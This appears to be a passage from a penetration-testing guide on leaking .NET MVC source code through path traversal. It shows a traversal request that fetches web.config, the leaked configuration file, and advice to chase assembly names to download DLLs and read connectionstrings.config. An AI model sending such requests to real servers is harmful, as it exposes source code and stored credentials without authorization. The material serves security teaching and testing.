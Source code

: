 Use it without adding any extension, the files that need it have it already.

## Path Traversal

### Leaking source code

{% hint style="info" %}
As summary, there are several web.config files inside the folders of the application with references to "**assemblyIdentity**" files and "**namespaces**". With this information it's possible to know **where are executables located** and download them.  
From the **downloaded Dlls** it's also possible to find **new namespaces** where you should try to access and get the web.config file in order to find new namespaces and assemblyIdentity.  
Also, the files **connectionstrings.config** and **global.asax** may contain interesting information.  
Reference: [https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html](https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html)
{% endhint %}

As any .Net application, MVC applications have a **web.config** file, where "**assemblyIdentity**" XML tags identifies every binary file the application uses.

```markup
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral" requirePermission="false" />
  </configSections>
  <appSettings>
    <add key="webpages:Version" value="3.0.0.0" />
    <add key="webpages:Enabled" value="false" />
    <add key="ClientValidationEnabled" value="true" />
    <add key="UnobtrusiveJavaScriptEnabled" value="true" />
  </appSettings>
<system.web>
  <authentication mode="None" />
  <compilation debug="true" targetFramework="4.6.1" />
  <httpRuntime targetFramework="4.6.1" />
</system.web>
<system.webServer>
  <modules>
    <remove name="FormsAuthentication" />
  </modules>
</system.webServer>
<runtime>
  <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.Owin.Security" />
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />
    </dependentAssembly>
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.Owin.Security.OAuth" />
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />
    </dependentAssembly>
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.Owin.Security.Cookies" />
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />
    </dependentAssembly>
```